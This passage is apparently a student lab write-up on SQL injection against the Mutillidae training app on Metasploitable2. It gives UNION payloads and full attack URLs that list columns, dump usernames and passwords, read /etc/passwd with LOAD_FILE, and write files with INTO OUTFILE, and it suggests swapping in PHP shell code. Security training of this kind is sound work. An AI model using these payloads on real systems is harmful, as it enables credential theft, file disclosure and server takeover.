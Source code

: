 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
The column names of the accounts is displayed below for the following url:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details 


![Screenshot 2024-04-30 120953](https://github.com/Vinothini1711/sqlinjection/assets/144300204/0dec79c7-4b40-4a9d-80d0-3cd6efae30d4)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-30 121356](https://github.com/Vinothini1711/sqlinjection/assets/144300204/682e6024-f183-4d1f-8599-64d9e9a655d2)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-30 121539](https://github.com/Vinothini1711/sqlinjection/assets/144300204/3eb6d01b-524b-4d48-acc5-04ad0356d31b)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
